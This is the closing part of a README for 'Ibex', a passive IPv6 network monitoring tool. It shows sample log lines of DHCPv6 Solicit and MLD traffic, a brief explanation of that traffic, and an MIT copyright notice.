[16:46:50] DHCP-Solicit from fe80::a1b2:c3d4:e5f6:0001 (MAC 00:aa:bb:cc:dd:01) → searching for DHCPv6 server  
[16:46:58] DHCP-Solicit from fe80::a1b2:c3d4:e5f6:0001 (MAC 00:aa:bb:cc:dd:01) → searching for DHCPv6 server  
[16:47:14] DHCP-Solicit from fe80::a1b2:c3d4:e5f6:0001 (MAC 00:aa:bb:cc:dd:01) → searching for DHCPv6 server  
[16:47:17] MLD from fe80::dead:beef:1234:0002 (MAC 00:11:22:33:44:02)  
[16:47:21] MLD from fe80::dead:beef:1234:0002 (MAC 00:11:22:33:44:02)  
[16:47:46] DHCP-Solicit from fe80::a1b2:c3d4:e5f6:0001 (MAC 00:aa:bb:cc:dd:01) → searching for DHCPv6 server  
[16:48:27] MLD from fe80::abcd:1234:5678:0003 (MAC 00:99:88:77:66:03)  
[16:48:27] MLD from fe80::abcd:1234:5678:0003 (MAC 00:99:88:77:66:03)  
[16:48:27] MLD from fe80::abcd:1234:5678:0003 (MAC 00:99:88:77:66:03)  
[16:48:27] MLD from fe80::abcd:1234:5678:0003 (MAC 00:99:88:77:66:03)
```

This traffic pattern shows:

- A host repeatedly trying to obtain an IPv6 configuration via DHCPv6;
- Sending Router Solicitations (RS) to locate an IPv6 router;
- Emitting Multicast Listener Discovery (MLD) messages;
- Performing Neighbor Discovery (NS/NA)

> Ibex captures all of this in real time and colorizes output for readability. This makes passive recon as easy as watching the screen

# Copyright

© 2025 Magama Bazarov, <magamabazarov@mailbox.org>

This project is licensed under the **MIT License**

All rights reserved.
Original design and development by Magama Bazarov.

